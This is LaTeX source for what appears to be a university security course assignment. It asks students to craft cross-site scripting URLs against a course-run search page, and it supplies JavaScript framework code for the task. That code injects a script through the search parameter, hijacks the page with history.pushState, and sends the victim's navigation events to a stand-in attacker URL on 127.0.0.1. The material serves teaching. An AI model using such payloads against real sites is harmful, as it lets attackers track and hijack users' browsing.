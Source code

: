 \documentclass[letterpaper,12pt]{report}
\newcommand{\firefox}{Firefox 49}
\newcommand{\jquery}{http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js}
\begin{document}
Your submission for each level of defense will be a text file with the specified filename that contains a single line consisting of a URL.  When this URL is loaded in a victim's browser, it should execute the specified payload against the specified target. The payload encoded in your URLs must be self-contained, but they may embed CSS and JavaScript.  Your payload may also load jQuery from the URL \url{\jquery}.  Make sure you test your solutions in \firefox, the browser we will use for grading.

\newpage

\subsection*{Framework Code}
You may build your XSS attacks by extending the following framework if you wish. (It simply changes the content in the search bar.)

{\small\begin{verbatim}
<meta charset="utf-8">
<script src="http://ajax.googleapis.com/ajax/libs/jquery/2.0.3/jquery.min.js"></script>
<script>
// Extend this function:
function payload(attacker) {
    function log(data) { 
        console.log($.param(data))
        $.get(attacker, data);
    }
    function proxy(href) {
        var stateObj = { foo: href };
        history.pushState(stateObj, "page 2", href);
        $("html").load(href, function(){
            $("html").show();
            log({event: "nav", uri: href});
            $("#query").val("pwned!");
        }); 
    }
    $("html").hide();
    proxy("/");
}
	
function makeLink(xssdefense, target, attacker) {
    if (xssdefense == 0) {
        return target + "/search?xssdefense=" + xssdefense.toString() + "&q=" + 
            encodeURIComponent("<script" + ">" + payload.toString() +
            ";payload(\"" + attacker + "\");</script" + ">");
    } else {
        // Implement code to defeat XSS defenses here.
    }
}
	
var xssdefense = 0;
var target = "http://cos432-assn3.cs.princeton.edu/";
var attacker = "http://127.0.0.1:31337/stolen";
$(function() {
    var url = makeLink(xssdefense, target, attacker);
    $("h3").html("<a target=\"run\" href=\"" + url + "\">Try Bungle!</a>");
});
</script>
<h3></h3>
\end{verbatim}}
\end{document}
